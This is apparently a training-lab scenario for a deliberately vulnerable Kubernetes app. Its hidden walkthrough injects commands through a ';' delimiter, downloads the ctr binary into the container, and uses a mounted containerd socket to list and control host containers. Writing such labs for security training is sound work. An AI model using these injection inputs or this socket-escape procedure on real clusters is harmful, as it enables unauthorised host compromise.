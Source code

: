 # Scenario: ContainerD Abuse

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but heavily adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

By the end of the scenario, you will understand and learn the following:

- You will learn to test and exploit the container UNIX socket misconfigurations
- Able to exploit container and escape out of the container
- Learn about ContainerD
- Learn common misconfigurations in pipelines and CI/CD build systems

## The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit a very similar misconfiguration and gain access to the host system by escaping out of the container.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_health_check>`

## Goals

The goal of this scenario is to escape out of the running container to the host system where the container is running and able to access and perform actions on the host system.

> ***Tip:*** If you are able to obtain containers running in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation, e.g. spinning up an additional container.

### Hints

<details>
<summary>Click here</summary>

✨ Do you know how to run multiple commands in Linux?
<br><br>
The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌
<br><br>
✨ Able to run system commands, not sure how to access containers?
<br><br>
Identify the mounted UNIX socket volume, and use `ctr` binary to communicate with that with <b>-H</b> flag 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain.
<br><br>
It contains `/containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

Wow! We can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket via gRPC.
<br><br>
Note: We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [official containerd binary](https://containerd.io/downloads/), or a simple `grpcurl` program as well.
<br><br>
The easiest way to interact with containerd is to use the `ctr` command. We can download the official `ctr` static binary from the internet [https://containerd.io/downloads/](https://containerd.io/downloads/).
<br><br>
Then download the appropriate containerd binary to the container. We can use the following command (takes some time, be patient).

```bash
; wget https://github.com/containerd/containerd/releases/download/v1.6.20/containerd-1.6.20-linux-amd64.tar.gz -O /tmp/containerd-1.6.20.tgz
```

We can extract the binary from the `containerd-1.6.20.tgz` file so that we can use that to talk to the UNIX socket

```bash
; tar -xvzf /tmp/containerd-1.6.20.tgz -C /tmp/ bin/ctr
```

Now we can access the host system by running the following containerd commands with passing `containerd.sock` containerd's gRPC server. Let's check what is running from kubernetes.

```bash
; /tmp/bin/ctr -a /custom/containerd/containerd.sock -n=k8s.io containers ls
```

Hooray 🥳, now we can see that it has a lot of containers are running in the host system. We can now use different ctr commands to gain more access and further exploitation.
<br><br>
🎉 Success 🎉
<br><br>
If you'd like to create containers now, try it. Be beware of the fact that the design of containerd is that clients should be local to the daemon. Running a client in a container is effectively non-local without some very specific configuration (which will vary depending on what you are trying to do).

</details>

## References

- [Interacting with containerd runtime for kubernetes](https://www.vxav.fr/2021-09-13-interacting-with-containerd-runtime-for-kubernetes/)
